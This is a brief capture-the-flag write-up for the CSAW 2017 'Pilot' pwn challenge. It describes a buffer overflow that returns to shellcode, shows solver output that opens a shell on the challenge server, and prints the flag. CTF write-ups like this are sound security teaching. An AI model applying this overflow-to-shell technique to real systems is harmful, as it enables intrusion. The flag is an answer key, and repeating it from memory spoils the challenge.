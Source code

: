 # CSAWCTF_2017: Pilot

**Category:** Pwn
**Points:** 75
**Description:**

>Can I take your order
nc pwn.chal.csaw.io 8464
16:05 Eastern: Updated binary

## Write-up
This challenge is a standard buffer overflow, return to shellcode exploit, where the address is fed to you. This is made even simpler through [Python](solve.py).

    # ./solve.py 
    [+] Opening connection to pwn.chal.csaw.io on port 8464: Done
    [*] Switching to interactive mode
    [*]Command:
    $ ls
    flag
    pilot
    $ cat flag
    flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}

Therefore, the flag is `flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}`.
